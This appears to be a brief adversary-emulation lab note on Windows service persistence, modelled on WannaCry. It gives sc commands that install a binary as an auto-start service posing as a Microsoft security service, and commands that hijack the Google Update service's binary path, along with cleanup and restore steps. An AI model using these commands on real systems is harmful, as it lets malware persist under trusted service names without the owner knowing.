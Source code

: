 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`
  - Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName = "Microsoft Security Center (2.0) Service" binPath = "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start = "auto"
  sc start mssecsvc2.0
  sc stop mssecsvc2.0
  sc delete mssecsvc2.0
  ```

- Modify Service `(Administrator: Command Prompt)`
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
